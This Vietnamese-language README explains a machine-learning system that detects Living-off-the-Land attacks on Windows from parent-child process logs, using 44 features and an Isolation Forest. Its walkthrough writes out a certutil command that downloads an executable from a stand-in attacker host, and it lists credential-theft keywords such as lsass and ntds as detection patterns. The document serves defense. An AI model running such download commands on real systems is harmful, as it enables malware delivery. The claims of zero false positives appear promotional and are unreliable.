

# Giải thích Luồng Hoạt động Hệ thống Phát hiện Tấn công Living-off-the-Land (LotLDetection)

Tài liệu này được thiết kế nhằm giải thích **cơ chế và luồng vận hành toàn diện** của hệ thống **LotLDetection** theo cách trực quan, dễ hiểu nhất, kết hợp giữa ngôn ngữ bình dân và các phân tích kỹ thuật chuyên sâu.

---

## 1. Ý tưởng cốt lõi: Tại sao phải có hệ thống này?

### 1.1. Tấn công Living-off-the-Land (LOLBin) là gì?
Hãy tưởng tượng một tên trộm đột nhập vào nhà:
- **Tấn công truyền thống:** Tên trộm mang theo xà beng, kìm cộng lực (mang file mã độc `.exe`, virus từ ngoài vào). Các phần mềm diệt virus (Antivirus/EDR) rất dễ phát hiện vì nhận diện được các công cụ nguy hiểm này qua mã băm (Hash) hoặc chữ ký độc hại.
- **Tấn công Living-off-the-Land:** Tên trộm **không mang theo bất kỳ vũ khí nào**. Hắn lẻn vào nhà, mở ngăn kéo bếp và lấy chính con dao gọt hoa quả của gia chủ (`certutil.exe`, `powershell.exe`, `wmic.exe`, `mshta.exe`...) để cạy tủ hoặc cắt khóa.

Do các công cụ này là **chương trình hợp pháp có sẵn của Windows**, lại có **chữ ký số điện tử chuẩn từ Microsoft**, các hệ thống phòng thủ truyền thống hoàn toàn bị "mù" hoặc nếu chặn thì sẽ làm gián đoạn luôn công việc của các quản trị viên hệ thống (IT Admin).

### 1.2. Giải pháp của LotLDetection
Thay vì nhìn vào *tệp nhị phân* (vốn luôn sạch 100%), hệ thống tập trung phân tích **HÀNH VI & NGỮ CẢNH THỰC THI**:
1. Lệnh đang truyền tham số kỳ lạ gì? Có bị làm rối (Obfuscation) để trốn tránh không?
2. **Ai là người sinh ra tiến trình này?** (Ví dụ: `explorer.exe` gọi `cmd.exe` là người dùng thao tác; nhưng `winword.exe` sinh ra `cmd.exe` thì 99% là mã độc macro).
3. Sử dụng mô hình **Học không giám sát (Isolation Forest)** để học "thế nào là hành vi quản trị bình thường", từ đó phát hiện các hành vi bất thường/dị biệt mà không cần phải biết trước mẫu tấn công.

---

## 2. Sơ đồ Luồng Hoạt động Tổng thể

Luồng xử lý từ dữ liệu thô (Raw Telemetry) đến khi đưa ra quyết định cảnh báo được chia thành **2 Tầng (2 Tiers) chính**:



---

## 3. Chi tiết 5 Bước Xử lý Kỹ thuật

### Bước 1: Thu nạp Log và Ghép cặp Cha - Con (Host-Scoped Pairing)
- **Nguồn dữ liệu:** Hệ thống đọc log sự kiện thời gian thực từ:
  - **Sysmon Event ID 1**: Ghi lại chi tiết mọi hành vi tạo tiến trình (Process Creation).
  - **Windows Security Event ID 4688**: Log bảo mật tiêu chuẩn của Windows.
- **Ghép cặp Phả hệ (Parent - Child):** 
  - Một tiến trình đơn lẻ không nói lên đầy đủ câu chuyện. Kẻ tấn công thường dùng một tiến trình (ví dụ `wmiprvse.exe` hoặc `svchost.exe`) để kích hoạt một tiến trình khác (`powershell.exe`).
  - Hệ thống sử dụng bộ khóa `(DatasetId, Computer, ProcessGuid / PID)` để ghép chính xác tiến trình Cha và tiến trình Con trên cùng một máy chủ, loại trừ hoàn toàn việc nhầm lẫn tiến trình giữa các máy tính khác nhau trong mạng doanh nghiệp.

### Bước 2: Làm giàu Tri thức An ninh (Corpus Data Enrichment)
Trước khi trích xuất đặc trưng, hệ thống đối chiếu dòng lệnh với 3 kho tri thức mở:
1. **Strontic xCyclopedia (2.329 tệp nhị phân):** Tra cứu xem file này là gì, các tham số hợp lệ của nó gồm những gì. Nếu một cờ (flag) chưa từng xuất hiện trong tài liệu chuẩn, đây là cờ khả nghi.
2. **LOTS Project (Living Off Trusted Sites):** Danh sách các tên miền dịch vụ tin cậy (như GitHub, Pastebin, Discord, Google Drive...) thường bị tin tặc mượn làm máy chủ chỉ huy (C2) hoặc nơi lưu trữ payload.
3. **FileSec.io:** Danh sách các phần mở rộng nguy hiểm (như `.sct`, `.hta`, `.wsc`, `.inf`, `.ps1`) thường dùng để kích hoạt mã từ xa.
4. **Nhúng FastText 1 chiều (`dim=1`):** Chuyển đổi tên đường dẫn của tiến trình thành một số thực đặc trưng (soft hash) để thuật toán học máy phân biệt danh tính giữa các chương trình.

### Bước 3: Trích xuất Bộ Đặc trưng Tường minh 44 chiều (Explicit Featurization)
Mỗi cặp tiến trình Cha - Con được biến đổi thành một vector toán học **44 chiều cố định**:

$$\mathbf{x} = [\underbrace{F_1 \dots F_{18}}_{\text{Tiến trình Con (18)}} \quad \Vert \quad \underbrace{F_1 \dots F_{18}}_{\text{Tiến trình Cha (18)}} \quad \Vert \quad \underbrace{F_{19} \dots F_{26}}_{\text{Ngữ cảnh hệ thống (8)}}]$$

#### A. 18 Đặc trưng Dòng lệnh ($F_1 \dots F_{18}$) — Đo đạc độc lập cho cả Con và Cha:
1. **Độ dị biệt tham số ($F_1 - F_4$):** Tham số có nằm trong tài liệu xCyclopedia không? Tần suất xuất hiện trong hệ thống có thấp hơn $1\%$ không?
2. **Kỹ thuật làm rối cú pháp ($F_5$):** Có chứa các ký tự chèn để né tránh EDR không (dấu caret `^`, dấu ngoặc kép rỗng `""`, `cmd /c set ...`, `;;`)?
3. **Mã hóa và Hỗn loạn ($F_6, F_{15}$):** Có chứa chuỗi Hex dài $\ge 8$ ký tự hoặc Base64 không? Độ hỗn loạn thông tin Shannon Entropy có vượt ngưỡng $7.0$ (dấu hiệu mã hóa) không?
4. **Tỷ lệ phân phối ký tự ($F_7$):** Phân phối chữ hoa, chữ thường, số, khoảng trắng và ký tự đặc biệt có lệch chuẩn thống kê ($\chi^2$) so với thông thường không?
5. **Dấu hiệu tải mã và tương tác mạng ($F_8, F_{11}, F_{13}, F_{14}$):** Có URL tải tệp trực tiếp, kết nối IP công cộng, hay gọi đến domain thuộc LOTS Project không?
6. **Đường dẫn không tin cậy ($F_9, F_{17}$):** Mã có chạy từ thư mục tạm như `AppData`, `Temp`, `Downloads` không?
7. **Đuôi file khả nghi ($F_{10}$):** Chứa các đuôi file rủi ro theo FileSec không?
8. **Từ khóa trộm mật khẩu ($F_{16}$):** Dòng lệnh có chứa các chuỗi nhạy cảm như `lsass`, `samsrv`, `hklm\sam`, `winlogon`, `ntds` không?
9. **Luồng dữ liệu phụ ($F_{18}$):** Có sử dụng cú pháp Alternate Data Streams (`file:stream`) để giấu mã độc vào ổ đĩa NTFS không?

#### B. 8 Đặc trưng Ngữ cảnh ($F_{19} \dots F_{26}$):
- $F_{19}, F_{20}$: Điểm nhúng FastText `dim=1` của Cha và Con.
- $F_{21}, F_{22}$: Phát hiện **Ngụy trang (Masquerading)** — Tên file thực tế có bị đổi khác với tên gốc trong PE Header (`OriginalFileName`) hay không?
- $F_{23}$: Khoảng cách thời gian sinh tiến trình ($\Delta t = t_{con} - t_{cha}$): Được gọi tức thời bằng script hay do con người gõ lệnh?
- $F_{24}, F_{25}$: Mức đặc quyền (Integrity Level) của Cha và Con (đánh giá leo thang đặc quyền UAC Bypass).
- $F_{26}$: Chữ ký số Authenticode có hợp lệ hay không.

### Bước 4: Bộ lọc Chữ ký số Microsoft Authenticode
- Định nghĩa chuẩn của tấn công LOLBin: **Lợi dụng công cụ hệ thống hợp lệ có chữ ký của Microsoft**.
- Nếu một tiến trình là mã độc không rõ nguồn gốc (không có chữ ký Microsoft), đó là mã độc thông thường (sẽ do Antivirus xử lý). 
- Bộ lọc loại bỏ nhiễu, chỉ giữ lại các cặp tiến trình mà ít nhất một bên có chữ ký số hợp lệ của Microsoft (`microsoft_signed == True`).

### Bước 5: Dự đoán Bất thường bằng Isolation Forest (Rừng cô lập)
- **Chuẩn hóa z-score (`StandardScaler`):** Đưa các đặc trưng về cùng một phân phối chuẩn ($\mu=0, \sigma=1$) để thuật toán không bị thiên lệch bởi các giá trị quá lớn.
- **Tại sao lại dùng Isolation Forest (Học không giám sát)?**
  - Trong môi trường thực tế của doanh nghiệp, hơn $99.9\%$ câu lệnh là hợp pháp (quản trị viên bảo trì, cập nhật phần mềm...). Dữ liệu tấn công LOLBin vô cùng hiếm và không có nhãn sẵn.
  - Isolation Forest không cần học mẫu tấn công. Thuật toán dựng 200 cây cô lập (Isolation Trees) để cắt ngẫu nhiên không gian dữ liệu.
  - Các điểm bình thường (nằm chen chúc trong đám đông) sẽ cần rất nhiều nhát cắt để cô lập.
  - Ngược lại, **hành vi tấn công LOLBin (dị biệt, tham số lạ, làm rối)** sẽ nằm trơ trọi ở biên và bị cô lập với rất ít nhát cắt.
- **Ngưỡng quyết định (Decision Logic):**
  - $\text{Anomaly Score} > 0.0$ (Mô hình dự đoán $-1$): **Dị biệt $\to$ Báo động LOLBin (ANOMALOUS)**.
  - $\text{Anomaly Score} \le 0.0$ (Mô hình dự đoán $+1$): **Bình thường $\to$ Cho phép hoạt động (BENIGN)**.

---

## 4. Ví dụ Trực quan từ Đầu đến Cuối (Walkthrough Scenario)

Giả sử kẻ tấn công sử dụng công cụ chuẩn `certutil.exe` (vốn dùng để quản lý chứng chỉ số) để tải mã độc từ xa về máy nạn nhân:

### 1. Dòng lệnh kẻ tấn công thực thi:
```cmd
certutil.exe -urlcache -split -f https://attacker-site.com/beacon.exe C:\Users\Public\beacon.exe
```

### 2. Hệ thống thu nạp và phân tích:
- **Tiến trình Cha:** `cmd.exe` (Chạy bởi người dùng).
- **Tiến trình Con:** `certutil.exe` (Có chữ ký số Microsoft Authenticode $\to$ Vượt qua Bước 4).
- **Trích xuất đặc trưng (Bước 3):**
  - $F_3 = 1$ (`undocumented_usage`): Tham số `-urlcache` và `-split` dùng cho mục đích tải file chứ không phải chức năng chính.
  - $F_4 = 1$ (`anomalous_argument`): Tham số `-split` có tần suất $< 1\%$ trong mạng nội bộ.
  - $F_8 = 1$ (`remote_code`): Chuỗi chứa URL tải trực tiếp file `.exe`.
  - $F_9 = 1$ (`potentially_untrusted_code`): Tệp đích ghi vào `C:\Users\Public` (thư mục không được bảo vệ).
  - $F_{13} = 1$ (`one_hostname_one_path`): Cú pháp kinh điển 1 domain + 1 đường dẫn cục bộ.
  - $F_{14} = 1$ (`web_remote_keywords`): Chứa từ khóa `https`.

### 3. Đánh giá của Mô hình:
Vector 44 chiều có nhiều đặc trưng dị biệt được kích hoạt đồng thời. Khi đưa qua 200 cây cô lập của Isolation Forest, điểm dữ liệu này lập tức bị cô lập ở độ sâu rất nông.
- **Kết quả:** $\text{Anomaly Score} = +0.28 > 0 \implies \mathbf{ANOMALOUS}$ (Phát hiện tấn công LOLBin chính xác với tỷ lệ cảnh báo giả bằng 0%).

---

## 5. Tóm tắt Giá trị Đột phá của Hệ thống

| Tiêu chí | Giải pháp Truyền thống (Rule/SIEM/AV) | Hệ thống LotLDetection |
| :--- | :--- | :--- |
| **Nhận diện file nhị phân** | Bị lừa vì file có chữ ký số xịn của Microsoft | Vẫn kiểm tra nhưng tập trung sâu vào hành vi dòng lệnh |
| **Kỹ thuật làm rối (Obfuscation)** | Thường bị vượt qua bởi các ký tự lạ (`^`, `""`) | Phát hiện ngay qua các đặc trưng $F_5, F_6, F_7, F_{15}$ |
| **Dữ liệu huấn luyện** | Cần hàng nghìn mẫu tấn công có gán nhãn | Chỉ cần dữ liệu quản trị bình thường (Học không giám sát) |
| **Cảnh báo giả (False Positives)** | Thường rất cao, gây mệt mỏi cho chuyên viên SOC | Đạt mức kiểm soát tối ưu (FPR xấp xỉ 0% trên tập baseline) |
